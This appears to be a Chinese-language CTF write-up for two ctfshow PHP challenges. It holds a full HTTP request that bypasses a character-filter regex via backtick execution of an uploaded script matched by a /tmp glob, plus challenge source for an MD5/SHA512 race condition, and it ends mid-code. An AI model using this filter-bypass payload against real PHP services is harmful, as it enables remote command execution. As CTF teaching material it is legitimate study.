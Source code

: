### php writeup

#### ctfshow 红包题第二弹（无数字字母无~^RCE）

1.?>把前面的<?php 给闭合掉, <?=是 echo()的别名用法， 2.文件上传后路径为 /tmp/xxxxx 下
3.linux 中反引号`ls`是可以执行命令的. 综合起来就是 echo 输出 执行命令的结果

放过了 p

```php
preg_match("/[A-Za-oq-z0-9$]+/",$cmd)){
```

```
POST /?cmd=?><?=`.+/??p/p?p??????`; HTTP/1.1

Content-Type: multipart/form-data; boundary=---------------------------10242300956292313528205888

-----------------------------10242300956292313528205888
Content-Disposition: form-data; name="fileUpload"; filename="1.txt"
Content-Type: text/plain

#! /bin/sh

cat /flag.txt
-----------------------------10242300956292313528205888--
```

#### CTFshow 红包题第六弹-条件竞争

https://blog.csdn.net/weixin_43873408/article/details/119330953
https://www.moonback.xyz/2020/02/17/ctfshow%E9%83%A8%E5%88%86%E9%A2%98%E7%9B%AEwriteup/

本机测试时可使用 vardump(\$\_FILES)可以看到些信息

```php
<?php
function receiveStreamFile($receiveFile)
{

    $streamData = isset($GLOBALS['HTTP_RAW_POST_DATA']) ? $GLOBALS['HTTP_RAW_POST_DATA'] : '';

    if (empty($streamData)) {
        $streamData = file_get_contents('php://input');
    }

    if ($streamData != '') {
        $ret = file_put_contents($receiveFile, $streamData, true);
    } else {
        $ret = false;
    }

    return $ret;

}

$receiveFile = 'flag.dat';
$flag = 'flag{************************}';
receiveStreamFile($receiveFile);
# 多进程并发请求，只要满足第一个条件后(先发key.dat)，修改文件内容第二个条件即可成功
if (md5_file($receiveFile) === md5_file("key.dat")) {   # 条件1 md5相同 -- 传key.dat , 通过条件1
    if (hash_file("sha512", $receiveFile) != hash_file("sha512", "key.dat")) { # 条件2 sha1不同 --  通过1的时候 替换文件，通过条件2
        $ret['success'] = "1";
        $ret['msg'] = "人脸识别成功!$flag";
        $ret['error'] = "0";
        echo json_encode($ret);
```